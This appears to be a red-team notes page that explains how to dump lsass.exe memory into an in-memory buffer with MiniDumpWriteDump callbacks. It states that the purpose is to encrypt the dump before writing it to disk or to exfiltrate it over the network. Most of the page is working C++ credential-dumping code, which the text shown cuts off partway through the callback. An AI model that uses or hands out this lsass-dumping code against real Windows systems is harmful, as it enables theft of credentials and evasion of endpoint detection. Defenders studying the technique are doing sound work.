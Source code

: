 ## MiniDumpWriteDump to Memory using MiniDump Callbacks

By default, `MiniDumpWriteDump` will dump lsass.exe process memory to disk, however it's possible to use `MINIDUMP_CALLBACK_INFORMATION` callbacks to create a process minidump in memory, where we could encrypt it before dropping to disk or exfiltrate it over the network.

### Code

The below code shows how we can create a minidump for a process and store its buffer in memory, where we can process the buffer as required.

```cpp
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#include <processsnapshot.h>
#pragma comment (lib, "Dbghelp.lib")

using namespace std;

// Buffer for saving the minidump
LPVOID dumpBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 * 1024 * 75);
DWORD bytesRead = 0;

BOOL CALLBACK minidumpCallback(
	__in     PVOID callbackParam,
	__in     const PMINIDUMP_CALLBACK_INPUT callbackInput,
	__inout  PMINIDUMP_CALLBACK_OUTPUT callbackOutput
)
{
	LPVOID destination = 0, source = 0;
	DWORD bufferSize = 0;

	switch (callbackInput->CallbackType)
	{
		case IoStartCallback:
			callbackOutput->Status = S_FALSE;
			break;

		// Gets called for each lsass process memory read operation
		case IoWriteAllCallback:
			callbackOutput->Status = S_OK;
			
			// A chunk of minidump data that's been jus read from lsass. 
			// This is the data that would eventually end up in the .dmp file on the disk, but we now have access to it in memory, so we can do whatever we want with it.
			// We will simply save it to dumpBuffer.
			source = callbackInput->Io.Buffer;
			
			// Calculate location of where we want to store this part of the dump.
			// Destination is start of our dumpBuffer + the offset of the minidump data
			destination = (LPVOID)((DWORD_PTR)dumpBuffer + (DWORD_PTR)callbackInput->Io.Offset);
			
			// Size of the chunk of minidump that's just been read.
			bufferSize = callbackInput->Io.BufferBytes;
			bytesRead += bufferSize;
			
			RtlCopyMemory(destination, source, bufferSize);
			
			printf("[+] Minidump offset: 0x%x; length: 0x%x\n", callbackInput->Io.Offset, bufferSize);
			break;

```